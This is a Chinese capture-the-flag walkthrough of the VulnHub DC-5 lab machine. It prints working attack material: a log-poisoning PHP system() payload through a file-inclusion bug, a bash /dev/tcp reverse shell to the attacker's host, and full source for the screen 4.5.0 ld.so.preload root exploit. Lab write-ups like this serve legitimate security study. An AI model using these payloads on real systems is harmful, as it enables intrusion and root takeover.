# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的IP地址是 `192.168.64.40`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.40 -sS -sV -Pn --max-rate 10000 -p-
```


**TCP connection扫描**
```shell
nmap 192.168.64.40 -sT -sV -Pn --max-rate 10000 -p-
```


**UDP扫描**
```shell
nmap 192.168.64.40 -sU -sV -Pn --max-rate 10000 --top-ports 100
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.40 -sV -sC -O -p 80,111,35898,2 --max-rate 10000 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.40 -sV --script vuln -O -p 80,111,35898,2 --max-rate 10000 -oA nmap-scan/vuln
```


## 1.3 80端口获取信息
### 1.3.1 访问`http://192.168.64.40`


**看网页源代码**
没看到什么信息。

**会不会是什么CMS**
```shell
whatweb http://192.168.64.40
```

不是什么CMS.

### 1.3.2 扫描网站目录/文件
```shell
gobuster dir --url http://192.168.64.40 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,git,php,html,png,jpg,txt -db
```


**访问`http://192.168.64.40/images`**


扫描网站没什么信息。

### 1.3.2 php文件参数扫描
**`index.php`文件参数扫描**
```shell
ffuf -u http://192.168.64.40/index.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
ffuf -u http://192.168.64.40/index.php?FUZZ=whoami -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```

**`solutions.php`文件参数扫描**
```shell
ffuf -u http://192.168.64.40/solutions.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
ffuf -u http://192.168.64.40/solutions.php?FUZZ=whoami -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```

**`faq.php`文件参数扫描**
```shell
ffuf -u http://192.168.64.40/faq.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
ffuf -u http://192.168.64.40/faq.php?FUZZ=whoami -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```

**`contact.php`文件参数扫描**
```shell
ffuf -u http://192.168.64.40/contact.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
ffuf -u http://192.168.64.40/contact.php?FUZZ=whoami -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```

**`footer.php`文件参数扫描**
```shell
ffuf -u http://192.168.64.40/footer.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
ffuf -u http://192.168.64.40/footer.php?FUZZ=whoami -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```

**`about-us.php`文件参数扫描**
```shell
ffuf -u http://192.168.64.40/about-us.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
ffuf -u http://192.168.64.40/about-us.php?FUZZ=whoami -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```

**`thankyou.php`文件参数扫描**
```shell
ffuf -u http://192.168.64.40/thankyou.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
ffuf -u http://192.168.64.40/thankyou.php?FUZZ=whoami -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```

还真的扫出来一个，在`thankyou.php`文件有一个参数`file`.

## 1.4 111端口获取信息
```shell
rpcinfo -p 192.168.64.40
```


```shell
showmount -e 192.168.64.40
```
没啥什么结果。

---

# 2.建立系统立足点

看看上面扫描出来的参数有什么用?

这似乎是一个本地文件包含。

查看一下thankyou.php文件，看看到底是怎么回事，

解码这个base64，可以找到一下代码，
```php
<?php
$file = $_GET['file'];
if(isset($file))
{
    include("$file");
}
else
{
    include("footer.php");
}
?>
```
尝试一下，可不可以运行命令，
```text
POST /thankyou.php?file=php://input HTTP/1.1
Host: 192.168.64.40
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://192.168.64.40/contact.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 26

<?php system('whoami'); ?>
```
并不可以运行命令。

能不能尝试一下日志投毒，可以发现/var/log/nginx/error.log日志是可以阅读的，这个日志会把报错的信息（无法读到的文件，就是整个file参数都写进去），那就可以尝试了，使用Burp Suite发送下面的Request,
```text
GET /thankyou.php?file=/var/log/nginx/error.log/<?=system($_GET["x"]);?> HTTP/1.1
Host: 192.168.64.40
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, 
```

然后就可以构造`file`参数，
```
?file=/var/log/nginx/error.log&x=echo%20'----';ls;echo%20'----'
```

利用Burp Suite里面的搜索，可以比较快速的找到位置。

**建立反弹连接**
构造file参数
```text
?file=/var/log/nginx/error.log&x=echo%20'----';bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.64.2/1025%200>%261';echo%20'----'
```

kali端监听
```shell
nc -lvnp 1025
```

Burp Suite发送Request,

成功建立反弹连接。

---

# 3.系统提权

```shell
find / -perm -4000 -type f 2>/dev/null
```
可以发现上面有一个screen工具，检查版本后可以发现是4.5.0
搜索漏洞，

使用41154

(经过尝试，就会发现靶机上面的gcc不能正确编译41154.sh里面的c代码，所以需要到kali里面进行交叉编译，然后再传到靶机上面去)

本地开启python简单http服务，
```shell
python3 -m http.server 80
```

**在kali本地编译**
libhax.c内容如下
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

__attribute__ ((__constructor__))
void dropshell(void) {
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
}
```
编译命令如下，
`x86_64-linux-gnu-gcc -fPIC -shared -ldl -o libhax.so libhax.c`

rootshell内容如下
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execl("/bin/sh", (char *)NULL);
}
```
编译命令如下，
`x86_64-linux-gnu-gcc -o rootshell rootshell.c -static`

然后修改41154.sh改成如下，
```shell
#!/bin/bash
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
echo "[+] Triggering..."
screen -ls
/tmp/rootshell
```
运行完之后可能显示警告什么的，没事，主要是看一下rootshell这个文件是不是suid.




---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**DC-5**: 
- website: `https://www.vulnhub.com/entry/dc-5,314/`
- IP: `192.168.64.40`
- CPU Arch: `x86_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐